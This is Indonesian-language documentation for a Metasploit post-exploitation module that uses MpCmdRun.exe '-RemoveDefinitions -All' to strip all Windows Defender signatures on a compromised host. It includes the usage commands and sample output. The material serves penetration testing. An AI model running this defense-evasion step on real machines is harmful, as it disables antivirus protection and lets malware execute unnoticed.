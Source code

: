 # rollback_defender_signatures

Modul ini, dengan hak akses yang sesuai, menggunakan utilitas baris perintah Windows Defender (`mpcmdrun.exe`) untuk menjalankan alat otomatisasi guna menonaktifkan semua tanda tangan yang tersedia dan terpasang di mesin yang telah disusupi. Alat ini umumnya digunakan untuk menjadwalkan pemindaian dan memperbarui file tanda tangan atau definisi, tetapi terdapat opsi yang memungkinkan untuk mengembalikan definisi tanda tangan yang terpasang ke salinan cadangan sebelumnya atau ke set tanda tangan default asli, yaitu tidak ada, sehingga menonaktifkan semua tanda tangan dan memungkinkan malware untuk dieksekusi meskipun solusi Windows Defender diaktifkan.

## Penulis
- metasploit metasploit@@csiete.org
- luisco100 luisco100@gmail.com

## Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use post/windows/manage/rollback_defender_signatures
set SESSION <ID>
set VERBOSE true
rollback
```

Hasil output-nya seperti ini:

```
[*] program_path = C:\Program Files
[*] file_path = C:\Program Files\Windows Defender\MpCmdRun.exe
[*] Removing all definitions for Windows Defender
[*] Running cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
[*] 
Service Version: 6.1.7600.16385
Engine Version: 1.1.6402.0
AntiSpyware Signature Version: 1.95.191.0

Starting engine and signature rollback to none...Done!
[*] Post module execution completed
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/post/windows/manage/rollback_defender_signatures/)
